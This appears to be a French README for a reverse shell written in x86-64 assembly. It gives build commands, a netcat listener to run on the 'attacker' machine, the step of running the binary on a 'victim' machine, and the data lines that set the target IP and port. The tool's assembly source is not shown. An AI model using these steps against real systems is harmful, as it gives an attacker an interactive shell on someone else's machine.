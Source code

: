# Reverse Shell en Assembleur x86-64

Un reverse shell léger implémenté en assembleur x86-64 qui se connecte d'une machine victime à une machine attaquante, liant un shell fonctionnel à travers une connexion réseau. Il dispose d'une gestion d'erreur robuste avec des tentatives de reconnexion automatiques et un code assembleur optimisé.

## Prérequis

- Système Linux x86-64
- NASM (Netwide Assembler)
- ld (GNU Linker)

## Compilation

```bash
make
```

Ou pour recompiler entièrement :

```bash
make re
```

## Utilisation

1. Sur la machine attaquante (celle qui va recevoir le shell) :
   ```bash
   nc -lvp 4444
   ```

2. Sur la machine victime (celle qui va exécuter le reverse shell) :
   ```bash
   ./reverse_shell
   ```

## Configuration

Par défaut, le reverse shell se connecte à `127.0.0.1` (localhost) sur le port `4444`.

Pour modifier l'adresse IP et le port, modifiez les lignes suivantes dans `reverse_shell.asm` :

```asm
ip dd 0x0100007f       ; 127.0.0.1 en format réseau (little-endian)
port dw 0x5c11         ; Port 4444 (0x115c)
```

## Fonctionnalités

- Connexion de la machine victime vers la machine attaquante
- Bind d'un shell (/bin/sh) à travers la connexion réseau
- Gestion d'erreur pour éviter les segmentation faults
- Tentatives de reconnexion automatiques (toutes les 5 secondes)
- Maximum de 10 tentatives de reconnexion
- Code assembleur optimisé

## Nettoyage

Pour supprimer les fichiers objets :
```bash
make clean
```

Pour supprimer tous les fichiers générés (y compris l'exécutable) :
```bash
make fclean
```
